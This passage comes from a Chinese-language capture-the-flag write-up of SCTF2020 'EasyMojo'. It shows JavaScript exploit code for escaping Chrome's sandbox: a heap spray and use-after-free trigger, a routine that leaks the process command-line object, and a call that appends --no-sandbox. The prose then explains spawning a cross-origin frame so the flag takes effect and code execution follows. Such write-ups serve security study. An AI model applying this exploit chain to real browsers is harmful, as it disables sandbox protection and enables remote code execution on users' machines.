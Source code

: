 ```js
    await spray(data);
    await uaf.trigger();
}
```

好了，现在可以对`SetCommandLineFlagsForSandboxType`进行调用了。接下来就是泄露命令行参数对象的地址了，要完成这个操作可以使用`copy64`函数完成。

```js
async function getCurrentProcessCommandLine(){
    print("[*] Getting current_process_commandline...");
    let [allocation_cmd, heapAddress] = await allocReadable(new ArrayBuffer(8));
    while (true) {
        await callFunction(kCopyQword, heapAddress, kCurrentProcessCommandline);
        print("\t[*] heapAddress: 0x"+heapAddress.toString(16));
        cmdLine = await allocation_cmd.readQword(0);
        if (cmdLine == 0n) {
            print("\t[!] got bad pointer for current_process_commandline... retrying");
            continue;
        }
        print("\t[*] current_process_commandline: 0x" + cmdLine.toString(16));
        return cmdLine;
    }
}
```

最后

```js
cmdLine = await getCurrentProcessCommandLine();
print("[*] Appending --no-sandbox to command line...");
await callFunction(kSetCommandLineFlagsForSandboxType, cmdLine, 0n /* kNoSandboxType */);
print("[*] Done!");
```

不过现在只是完成了去掉沙箱保护的过程，如果要成功RCE，就需要让Chrome开启新的进程，不然`--no-sandbox`是不会生效的。我选择的是直接在当前页面创建新的Frame，这些Frame也会被算作新进程，并且继承主进程的命令行参数。

需要注意的是，新frame不能和自己exp页面同源，不然Chrome不会创建新进程。

![image-20200707202353468](SCTF2020-EasyMojo.assets/image-20200707202353468.png)
